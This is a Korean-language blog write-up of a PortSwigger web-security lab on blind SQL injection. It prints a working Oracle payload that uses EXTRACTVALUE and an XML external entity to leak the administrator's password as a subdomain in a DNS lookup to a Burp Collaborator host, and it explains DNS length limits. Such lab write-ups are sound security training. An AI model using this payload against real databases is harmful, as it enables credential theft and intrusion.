



+++
url = '/write-up/portswigger/sql-injection/write-up-portswigger---blind-sql-injection-with-out-of-band-data-exfiltration/'
date = '2026-05-21T18:00:00+09:00'
draft = false
title = '[Write-up] PortSwigger - Blind SQL injection with out-of-band data exfiltration'
summary = "OAST 채널을 확장해, 조회한 비밀번호를 DNS 요청의 서브도메인에 실어 Burp Collaborator로 직접 빼내는 Out-of-band 데이터 유출 풀이 (Oracle)"
toc = true
tags = ["SQL Injection", "Blind SQLi", "OAST", "PortSwigger", "Practitioner"]
+++

---

## 문제 분석

> **난이도**: `PRACTITIONER`  
> **Lab**: [Blind SQL injection with out-of-band data exfiltration](https://portswigger.net/web-security/sql-injection/blind/lab-out-of-band-data-exfiltration)

> 

Tracking Cookie 값이 SQL 쿼리에 사용되며, 이 지점에 Blind SQL Injection 취약점이 존재한다.  
앞선 랩에서 확인한 외부 도메인과의 상호작용(OAST)을 확장해, `users` 테이블의 `username`·`password` 값을 외부로 빼낸 뒤 administrator 계정으로 로그인하면 문제가 해결된다.

---

## 익스플로잇

PortSwigger 치트시트의 "DNS lookup with data exfiltration" 페이로드를 참고해 구성한다.  
앞 랩과 동일한 Oracle `EXTRACTVALUE` + XXE 구조이되, 외부 엔티티가 조회할 도메인의 서브도메인 자리에 비밀번호를 조회하는 서브쿼리를 문자열 연결로 끼워 넣는다.

```sql
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://'||(SELECT password FROM users WHERE username='administrator')||'.<collaborator-id>.oastify.com/"> %remote;]>'),'/l') FROM dual--
```

DBMS가 `<administrator-비밀번호>.<collaborator-id>.oastify.com` 을 조회하게 되며, 그 결과 비밀번호가 서브도메인 형태로 Collaborator 로그에 기록된다.




기록된 administrator 계정 정보로 로그인하면 문제가 해결된다.


---

## 정리

OOB 데이터 유출은 앞 랩의 "외부 상호작용 유발"에서 한 걸음 더 나아가, 조회한 값을 DNS 요청의 서브도메인에 실어 아웃오브밴드 채널로 직접 빼내는 기법이다.  
`'||(서브쿼리)||'.<collaborator>` 형태로 값을 도메인 앞에 붙이면, DBMS가 그 도메인을 조회하는 순간 값이 Collaborator에 남는다. DNS는 대부분의 네트워크가 아웃바운드를 허용하기 때문에, 응답 내용·오류·시간 같은 인밴드 신호가 모두 막힌 상황에서도 성공률이 높다.  
다만 DNS는 도메인 라벨당 63자, 전체 253자라는 길이 제한과 사용 가능한 문자 제약이 있다. 따라서 값이 길거나 특수문자를 포함하면 `SUBSTR` 로 나눠 여러 번 조회하거나 별도 인코딩이 필요하다.